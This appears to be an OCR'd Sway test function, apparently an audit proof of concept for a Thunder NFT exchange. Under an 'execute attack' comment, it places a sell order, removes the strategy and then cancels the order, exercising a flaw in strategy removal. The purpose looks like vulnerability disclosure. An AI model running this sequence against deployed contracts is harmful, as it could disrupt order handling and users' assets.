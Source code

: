 ```sway


    let asset_id = AssetId::bits(asset_to_add);


    let pool = abi(Pool, pool::CONTRACT_ID);
    pool.initialize(exchange_contract_id, asset_manger_contract_id);

    let caller = Address::from(0xf8f8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    //set functions

    execution_manager.add_strategy(stratgey_fixed);

    thunder_exch.set_asset_manager(asset_manger_contract_id);
    thunder_exch.set_pool(pool_contract);
    thunder_exch.set_execution_manager(execution_manger_contract);
    // thunder_exch.set_protocol_fee_recipient(Identity::Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07)); // diff from maker
    thunder_exch.set_royalty_manager(royalty_manger_contract);

    //----------------------execute attack --------------------------------//

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Sell,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    thunder_exch.place_order(maker_order); // this could be called as .call {gas: 5000, asset_id : NFT_id, coins: 1 } but since this not possible in sway test then you need to comment the require check in the place_order--> order.sell

    execution_manager.remove_strategy(0);
    //no need to simulate adding another strategy since the seller is forced to use the old strategy since it contains the storage data.

    thunder_exch.cancel_order(stratgey_fixed, 1u64, Side::Sell);
}
```